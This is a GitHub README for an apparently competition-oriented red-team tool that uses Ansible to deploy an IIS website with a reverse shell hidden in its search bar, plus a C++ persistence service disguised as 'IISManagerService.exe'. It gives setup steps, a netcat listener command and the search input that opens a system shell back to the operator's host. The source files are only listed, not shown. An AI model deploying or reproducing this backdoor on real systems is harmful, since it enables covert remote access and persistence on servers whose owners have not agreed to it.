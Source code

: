 # IIS-Reverse-Shell

## Overview
This project demonstrates setting up a reverse shell on an IIS server. It includes:

- **Ansible Playbooks**: Automate the deployment and configuration of the IIS server.
- **PHP Scripts**: Facilitate the reverse shell functionality.
- **Website Content**: HTML and related assets for the web interface.

## Repository Structure

<pre>IIS-Reverse-Shell/
├── Ansible/
│   ├── iis_setup.yml
│   ├── inventory.yml
│   └── ansible.cfg
├── Images/
│   ├── UB_Lockdown/
│   │   ├── gallery1.jpg
│   │   ├── gallery2.jpg
│   │   ├── gallery3.jpg
│   │   ├── Sponsor1.png
│   │   └── logo.png
│   └── Empire State Health/
│       ├── gallery1.jpg
│       ├── gallery2.jpg
│       ├── gallery3.jpg
│       ├── header.jpg
│       ├── logo.png
│       └── sponsor1.png
├── PHP/
│   ├── contact.php
│   ├── search.php
│   └── php.ini
├── Persistence/
│   ├── Main.cpp
│   ├── Service.h
│   ├── Service.cpp
│   ├── Persistence.h
│   ├── Persistence.cpp
│   └── IISManagerService.exe
└── Website/
    ├── UB_Lockdown/
    │   ├── UB_Lockdown.html
    │   ├── button.js
    │   └── web.config
    └── Empire State Health/
        ├── Empire State Health.html
        ├── button.js
        └── web.config
</pre>

### Directory Breakdown
- **`Ansible/`**: Contains playbooks and inventory files for automating server setup.
- **`Images/`**: Directory with images used in the website.
- **`PHP/`**: Contains the PHP script for the reverse shell.
- **`Persistence/`**: Contains the C++ executable service that maintains persistence on the server.
- **`Website/`**: HTML and CSS files for the website's frontend.

## Setup Instructions

### Prerequisites
- **Ansible**: Installed on the control machine.
- **Windows Server**: With WinRM running and enabled.
- **Network Configuration**: Ensure the server is accessible and that required ports are properly configured.
- **Required Ansible Packages**:
  ```sh
  ansible-galaxy collection install ansible.windows community.windows
  pip install pywinrm
  ```

### Steps

## 1. Clone the Repository
```bash
cd ~
git clone https://github.com/Lcdemi/IIS-Reverse-Shell
cd IIS-Reverse-Shell/Ansible
```

## 2. Configure Ansible Inventory
Edit the inventory.yml file to include your server's details:

```yaml
all:
  hosts:
    [IP_1]
    [IP_2]
    ...
    [IP_X]
  vars:
    ansible_user: your_username
    ansible_password: your_password
    ansible_connection: winrm
    ansible_port: 5985
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
```

## 3. Configure Ansible Inventory
Edit the iis_setup.yml file to include the name of the Competition:

```yaml
 name: IIS Reverse Shell Server Configuration
  hosts: all
  gather_facts: true
  vars:
    Competition: "[Your Competition Name]"
```

## 4. Run the Ansible Playbook
To set up the IIS server and deploy the website, execute the following command:

```sh
ansible-playbook -i inventory.yml iis_setup.yml
```

## 5. Spawn a Reverse Shell
To spawn a reverse shell, follow these steps:

1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
   ```bash
   nc -lvnp [PORT]
   ```
2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
    ```html
    search [YOUR_IP] [PORT]
    ```
    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).

3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.
